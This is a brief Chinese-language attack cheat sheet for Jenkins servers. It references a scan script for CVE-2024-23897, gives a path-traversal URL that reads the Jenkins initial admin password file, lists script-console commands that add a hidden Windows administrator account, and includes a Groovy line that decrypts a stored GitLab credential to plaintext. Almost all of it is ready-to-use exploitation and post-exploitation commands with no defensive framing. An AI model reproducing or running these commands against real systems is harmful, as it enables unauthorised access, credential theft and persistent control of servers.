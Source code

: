 [批量扫描脚本-Jenkins任意文件读取(CVE-2024-23897)](https://mp.weixin.qq.com/s/eES8iWuu1MNJQFUCib5L3Q)

# 查找密码
Jenkins 用户名为 admin, 服务密码在
```bash
/tools/content-log.php?logfile=../../../../../../../../../ProgramData/Jenkins/.jenkins/secrets/initialAdminPassword
```
# 命令执行
Dashboard > Manage Jenkins > 脚本命令执行
```bash
println "net user dotast qwer1234! /add".execute().text  
println "net localgroup administrators dotast /add".execute().text  
```
# 查找凭据
Dashboard > Manage Jenkins > Credentials

gitlab 解明文
```bash
println(hudson.util.Secret.fromString("{AQAAABAAAAAg9+7GBocqYmo0y3H+uDK9iPsvst95F5i3QO3zafrm2TC5U24QCq0zm/GEobmrmLYh}").getPlainText())
```
